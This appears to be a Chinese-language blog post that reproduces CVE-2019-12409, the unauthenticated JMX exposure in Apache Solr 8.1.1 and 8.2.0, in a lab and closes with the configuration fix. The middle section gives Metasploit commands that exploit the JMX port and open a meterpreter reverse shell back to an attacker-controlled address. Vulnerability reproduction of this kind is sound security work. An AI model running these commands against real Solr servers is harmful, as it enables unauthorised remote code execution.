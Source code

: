 ```yaml
---
title: "Apache Solr远程代码执行漏洞(CVE-2019-12409)复现"
date: 2019-11-20T13:30:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

昨天看文章发现JMX也可以被利用,而且这个solr的洞刚好是这个类型的所以复现下!!

<!--more-->
# 漏洞简介:
近日安全研究人员JanHøydahl披露了Apache Solr的8.1.1和8.2.0发行版中的默认配置文件solr.in.sh,在其配置文件中ENABLE_REMOTE_JMX_OPTS字段值默认为"true".如果使用受影响版本中的默认配置,那么将启用JMX监视服务并将对公网监听一个18983的RMI端口,且无需进行任何身份验证.如果防火墙中的入站流量打开了此端口，则只要具有Solr节点网络访问权限就能够访问JMX，并且可以上传恶意代码在Solr服务器上执行.

该漏洞不影响Windows系统的用户,仅影响部分版本的Linux用户。

# 影响版本:
solr 8.1.1

solr 8.2.0

# 环境搭建:
(1)  下载solr 8.1.1(提前安装好java环境)

(2)  启动solr:

```
cd /root/solr-8.1.1/bin
./solr start -p 8983 -force(因为我们是用root用户启动的所以要加-force)
```
如下图:
![图片](https://ae01.alicdn.com/kf/U8dab09ff2d164af9aca4684fd01e40326.jpg)

我们可以看到其在启动后会默认开启18983端口

# 漏洞复现:
利用msf攻击JMX:

```
use exploit/multi/misc/java_jmx_server
set payload java/meterpreter/reverse_tcp
set LHOST 172.26.1.156
set RPORT 18983
set RHOST 172.26.1.134
run
```
如下图:
![图片](https://ae01.alicdn.com/kf/U9575cd51b2424b6cb0508f1ee42c6025B.jpg)

# 漏洞防御:
将Solr安装目录/bin文件夹下的solr.in.sh 配置文件中的“ENABLE_REMOTE_JMX_OPTS”="true"配置项改为 “false”，然后重启Solr。

![图片](https://ae01.alicdn.com/kf/U763131e7bdce4990b48313f7131f2b655.jpg)

# 参考链接:
[https://www.t00ls.net/articles-53901.html](https://www.t00ls.net/articles-53901.html)


